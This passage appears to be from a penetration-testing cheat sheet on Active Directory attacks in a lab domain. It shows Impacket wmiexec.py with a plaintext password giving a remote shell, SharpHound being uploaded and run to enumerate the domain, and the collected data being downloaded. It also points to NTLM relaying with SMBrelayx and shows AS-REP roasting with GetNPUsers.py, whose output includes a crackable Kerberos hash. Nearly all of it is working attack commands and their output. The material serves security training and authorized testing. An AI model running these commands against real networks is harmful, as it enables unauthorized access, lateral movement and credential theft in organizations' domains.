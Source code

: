 Use [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe) in WMIexec.

```plain
$ wmiexec.py admin:Welkom1234@10.10.10.10
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
put[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>put SharpHound.exe
[*] Uploading SharpHound.exe to C:\SharpHound.exe
C:\>SharpHound.exe --CollectionMethod All -d offsec.local --ldapusername johndo --ldappassword Welkom1234 --domaincontroller 10.10.10.10
------------------------------------------------
Initializing SharpHound at 10:59 AM on 11/5/2020
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain offsec.LOCAL using path CN=Schema,CN=Configuration,DC=offsec,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 18 MB RAM
Status: 74 objects finished (+74 74)/s -- Using 26 MB RAM
Enumeration finished in 00:00:01.6392385
Compressing data to .\20201105105903_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:59 AM on 11/5/2020! Happy Graphing!


C:\>get 20201105105903_BloodHound.zip
[*] Downloading C:\\20201105105903_BloodHound.zip
```

### SMBrelayx - Relay hashes across the network

Requires SMB-signing disabled or not required.

[Byt3bl33d3r.github.io - Practical guide to NTLM relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

### GetNPUsers.py - ASREPRoasting

```plain
$ GetNPUsers.py offsec.nl/ -usersfile users -dc-ip 10.10.20.134
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[-] User johndo doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@offsec.nl:0507c99ed0c44924dee1bd4fdb34e0b9$e6abe0cd017c45688ff4d667183ce9c8cb171635250c7a5d1f12666549466ecb367e6445751b867a44f483e8b255ebd039ea7375229a1c6763eb61965d34945b8500058e36dd32fadd6bdc5dc5fff5ef6ebc90343bdf177984852b3536fb12ab4a21f8cdee93339e7fc97d3028eb1f7643e1c9156f7d1facd658dd5b2061572f615abc4ea4007294ee648f38af428ef5f7045bb194c44bfef4f39f14ad02e982f74ef49a5a904e874ce1c2b5a38b61a4b30b58b2b521f4f81cdaee348b497a9ca757fe33e30e9ef6c7911963e120e905f5cf063964b5a13f7d9668a1f3e63466d1c0d18d9e76e31a8bec236fff42fa928dac
[-] User johndo-adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User janedo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

